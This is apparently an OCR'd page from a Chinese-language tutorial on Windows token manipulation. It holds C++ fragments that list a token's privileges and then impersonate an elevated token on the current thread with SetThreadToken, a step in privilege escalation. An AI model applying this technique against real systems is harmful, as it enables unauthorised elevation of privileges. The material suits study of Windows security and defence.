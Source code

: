 ```c++

		status = TRUE;
	}

	pTokenPrivileges = (PTOKEN_PRIVILEGES)GetTokenInfo(hToken, TokenPrivileges);

	wprintf(L"\n > Token Privileges Information: \n");
	dwLength = MAX_PATH;
	for (int i = 0; i < pTokenPrivileges->PrivilegeCount; i++)
	{
		lpName = (LPWSTR)LocalAlloc(LPTR, dwLength * sizeof(WCHAR));
		if (!(status = LookupPrivilegeNameW(NULL, &pTokenPrivileges->Privileges[i].Luid, lpName, &dwLength)))
		{
			wprintf(L"[-] LookupPrivilegeNameW Error: [%u].\n", GetLastError());
			return status;
		}
		wprintf(L"	 %-50ws", lpName);
		if (pTokenPrivileges->Privileges[i].Attributes & SE_PRIVILEGE_ENABLED)
			len += wsprintf(lpAttrbutes, TEXT("Enabled"));
		if (pTokenPrivileges->Privileges[i].Attributes & SE_PRIVILEGE_ENABLED_BY_DEFAULT)
			len += wsprintf(lpAttrbutes, TEXT("Enabled"));
		if (lpAttrbutes[0] == 0)
			wsprintf(lpAttrbutes, TEXT("Disabled"));
		wprintf(L"%ws\n", lpAttrbutes);
		dwLength = MAX_PATH;
	}

Clear:
	if (pTokenStatistics != NULL)
		LocalFree(pTokenStatistics);
	if (pTokenGroups != NULL)
		LocalFree(pTokenGroups);

	return status;
}
```

### Impersonate The Elevated Token

接着，会调用 `SetThreadToken()` 函数将当前线程的令牌替换为新生成的令牌，如下所示。

```c++
hThread = GetCurrentThread();

if (!SetThreadToken(&hThread, pElevatedToken))
{
	wprintf(L"[-] SetThreadToken Error: [%u].\n", GetLastError());
	return 0;
}
wprintf(L"\n[*] Successfully impersonated the elevated token.\n");
```
